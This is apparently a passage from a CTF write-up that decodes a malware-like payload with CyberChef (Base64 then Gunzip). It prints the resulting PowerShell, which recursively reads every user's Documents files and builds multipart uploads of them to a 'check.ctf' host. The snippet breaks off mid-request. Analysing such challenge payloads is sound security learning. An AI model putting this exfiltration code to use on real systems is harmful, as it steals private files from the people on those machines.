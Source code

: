 ![Cleaned up first payload](../../images/cleaned-decoded-first-payload.png){: .image-process-crisp}

Now we can do the same in CyberChef. First using "From Base64" and then "Gunzip".

![Decoding the second payload with base64 and gunzip](../../images/base64-gunzip-cs2022.png){: .image-process-crisp}

```powershell
$uri="http://check.ctf/upload"
try {
$ErrorActionPreference = "SilentlyContinue"
$f="ZmxhZyBpcyA4MTY4MTc3NS0yYTE0LTQ2MzktOGQyNC01MjYyZTUyMTI2N2Y="
foreach ($user in $(Get-ChildItem -path "C:\Users").FullName) {
$files=(Get-ChildItem -recurse -path "$user\Documents").FullName
foreach ($file in $files) {
$x = Get-Item -Path $file
$fname = (Get-ChildItem $file).Name
$fileBytes = [System.IO.File]::ReadAllBytes($x);
$fileEnc = [System.Text.Encoding]::GetEncoding('ISO-8859-1').GetString($fileBytes);
$boundary = [System.Guid]::NewGuid().ToString(); 
$LF = "`r`n";
$bodyLines = (
"--$boundary",
"Content-Disposition: form-data; name=`"upload`"$LF",
"true$LF",
"--$boundary",
"Content-Disposition: form-data; name=`"file`"; filename=`"$fname`"",
"Content-Type: application/octet-stream$LF",
$fileEnc,
"--$boundary--$LF" 
```